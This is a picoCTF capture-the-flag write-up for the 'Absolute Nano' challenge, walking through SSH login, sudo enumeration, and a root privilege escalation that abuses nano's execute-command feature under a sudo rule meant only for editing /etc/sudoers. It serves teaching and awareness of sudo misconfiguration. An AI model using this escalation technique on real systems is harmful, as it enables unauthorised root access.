


# ABSOLUTE NANO

**Category:** General Skills
**Difficulty:** Medium
**Author:** Darkraicg492

---

## Challenge Description

The challenge gives SSH access to a remote machine and asks us to read the flag.

Connection command:

```bash
ssh -p 61709 ctf-player@crystal-peak.picoctf.net
```

Password:

```text
d42cdeaa
```

The hint says:

```text
What can you do with nano?
```

This suggests that the solution involves using `nano` with elevated privileges.

---

## Initial Enumeration

After connecting to the server, I listed the files in the home directory:

```bash
ls
```

The directory contained:

```text
flag.txt
```

I tried to read the file directly:

```bash
cat flag.txt
```

But the output was:

```text
cat: flag.txt: Permission denied
```

This means the current user does not have permission to read the flag.

---

## Checking File Permissions

To understand why the file could not be read, I checked the file permissions:

```bash
ls -la
```

The flag file had the following permissions:

```text
-r--r----- 1 root root 35 flag.txt
```

The file is owned by `root`, and the current user `ctf-player` is not allowed to read it directly.

---

## Checking Sudo Permissions

The next step was to check which commands the current user can run with `sudo`:

```bash
sudo -l
```

The output showed:

```text
User ctf-player may run the following commands on challenge:
    (ALL) NOPASSWD: /bin/nano /etc/sudoers
```

This means that the user can run `nano` as root, but only to open `/etc/sudoers`.

So we cannot simply run:

```bash
sudo /bin/nano flag.txt
```

because the sudo rule only allows:

```bash
sudo /bin/nano /etc/sudoers
```

---

## Exploiting Nano

I opened `/etc/sudoers` with nano as root:

```bash
sudo /bin/nano /etc/sudoers
```

Inside nano, I used nano’s command execution feature.

The key sequence was:

```text
Ctrl + R
Ctrl + X
```

This opens the prompt:

```text
Command to execute:
```

Then I entered:

```bash
cat /home/ctf-player/flag.txt
```



Because nano was running as root, the command was also executed with root privileges.

The output of the command was inserted into the nano buffer, revealing the flag.



---

## Important Note

After the flag appeared inside nano, I exited without saving changes:

```text
Ctrl + X
N
```

This is important because `/etc/sudoers` is a sensitive system file, and saving accidental modifications could break sudo.

---

## Why This Works

The user cannot read `flag.txt` directly because the file belongs to `root`.

However, the sudo configuration allows the user to run:

```bash
/bin/nano /etc/sudoers
```

as root without a password.

Nano has a built-in feature that can execute shell commands from inside the editor. Since nano is running as root, the executed command can read root-owned files.

So running:

```bash
cat /home/ctf-player/flag.txt
```

from inside nano reveals the flag.

---

## Full Command Sequence

```bash
ssh -p 61709 ctf-player@crystal-peak.picoctf.net

ls
cat flag.txt

ls -la
sudo -l

sudo /bin/nano /etc/sudoers
```

Inside nano:

```text
Ctrl + R
Ctrl + X
cat /home/ctf-player/flag.txt
Enter
```

Exit without saving:

```text
Ctrl + X
N
```

---

## Investigation Summary

```text
1. Connected to the challenge server using SSH.
2. Found flag.txt in the home directory.
3. Tried to read it with cat, but got Permission denied.
4. Checked permissions with ls -la.
5. Found that flag.txt is owned by root.
6. Checked sudo permissions with sudo -l.
7. Found that ctf-player can run /bin/nano /etc/sudoers as root.
8. Opened /etc/sudoers with sudo nano.
9. Used nano’s Execute Command feature.
10. Executed cat /home/ctf-player/flag.txt from inside nano.
11. The flag was inserted into the nano buffer.
12. Exited nano without saving changes.
```

---

## Tools Used

```text
ssh
ls
cat
sudo
nano
```

---

## Key Takeaways

* `sudo -l` shows which commands a user can run with elevated privileges.
* A restricted sudo rule can still be dangerous if the allowed program has command execution features.
* Nano can execute shell commands using `Ctrl + R`, then `Ctrl + X`.
* Running nano as root allows its executed commands to access root-owned files.
* Never save accidental changes to `/etc/sudoers`.

---

## Final Flag

```text
picoCTF{...REDACTED...}
```
